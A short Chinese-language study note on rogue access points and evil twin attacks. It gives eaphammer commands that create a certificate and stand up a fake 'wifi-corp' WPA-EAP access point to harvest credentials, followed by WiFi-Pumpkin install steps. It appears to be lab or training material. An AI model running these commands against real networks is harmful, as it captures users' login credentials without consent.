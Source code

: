 Rogue Access Point
===
🔙 [MENU README](./README.md)


# Rogue AP
```
Rogue AP，也就是流氓(未經授權)接入點，aka 偷裝的基地台
類似於Shadow IT，影響機密性(可竊聽)還有管理問題

與EvilTwin很類似，差別只在EvilTwin可以仿冒完整的SSID跟BSSID(MAC)
```

# Evil Twin
![](../_src/EvilTwin.png)

# Rogue AP - eaphammer
Reset Enviroment
```bash
./restartWiFi.sh

sudo systemctl start network-manager
sudo su 
cd /root/tools/eaphammer
# https://github.com/s0lst1c3/eaphammer
```
生成憑證
```bash
# 也就是網頁上的鎖頭
# 除了第一個要填US，其他可隨意填
python3 ./eaphammer --cert-wizard
```
生成假AP
```bash
# Fake wifi-corp with 換行符號
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced --essid-stripping '\r'

# 開啟GUI介面可以看到兩個幾乎一樣的wifi-corp AP
# Evil Twin會更暴力一點把你直接踢下線，去連偽造的信號強度更強的AP
```

# Rogue AP - WiFi-Pumpkin
Install
```bash
git clone https://github.com/P0cL4bs/wifipumpkin3.git
./installer.sh -install
sudo wifi-pumpkin
```

